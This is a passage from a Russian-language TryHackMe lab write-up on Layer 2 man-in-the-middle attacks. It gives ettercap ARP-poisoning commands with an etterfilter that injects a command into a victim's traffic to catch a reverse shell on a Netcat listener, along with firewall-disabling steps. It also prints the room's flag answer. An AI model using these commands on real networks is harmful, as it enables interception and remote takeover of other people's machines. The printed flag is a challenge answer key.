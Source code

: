 ufw allow in on eth1 from 192.168.12.20 to 192.168.12.66 port 6666 proto tcpили полностью отключить брандмауэр, запустив ufw disable

Теперь запустите ettercap , указав только что созданный файл etterfilter :

`ettercap -T -i eth1 -M arp -F whoami.ef`

Через несколько секунд после выполнения этой команды вы должны увидеть сообщение "###### ETTERFILTER: …" и/или "Connection received on 192.168.12.20 …"   в выводе Netcat, что означает, что вы только что поймали обратный шелл от Боба! Теперь вы можете выйти из ettercap (с помощью q ), перевести на передний план своего слушателя Netcat (с помощью fg ) и наслаждаться своей оболочкой!

Примечание: чтобы ограничить попытки ettercap отравить ARP-пакеты вашими фактическими целями и отображать только трафик между ними, вы можете указать их как целевые группы 1 и 2, используя аннотацию токена "///" после опции -M arp :

`ettercap -T -i eth1 -M arp /192.168.12.10// /192.168.12.20// -F whoami.ef`

Подсказка: если обратная оболочка не работает, попробуйте заменить whoami на подходящую команду cat , чтобы получить флаг.
### Ответьте на вопросы ниже
Что такое флаг root.txt?
```commandline
THM{wh4t_an_ev1l_M!tM_u_R}
```

## Задание 9
Надеюсь, эта комната открыла вам новые перспективы в области сетевого пентестинга и дала вам новый уровень  атак для 
вашего инструментария, а также, надеюсь, вы получили удовольствие от этого процесса! 

Это также должно было вдохновить сообщество на создание большего количества контента и учебных ресурсов L2, поэтому 
не стесняйтесь взглянуть на «бэкэнд» виртуализации L2 Eve ( GNS3 ): 
http://MACHINE_IP:3080

Пожалуйста, не стесняйтесь оставлять мне любые отзывы или вопросы по внедрению блоков GNS3 и следите за новостями о 
новых событиях L2!
### Ответьте на вопросы ниже
Прочитайте вышеизложенное.
```commandline
Ответ не нужен
```
[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)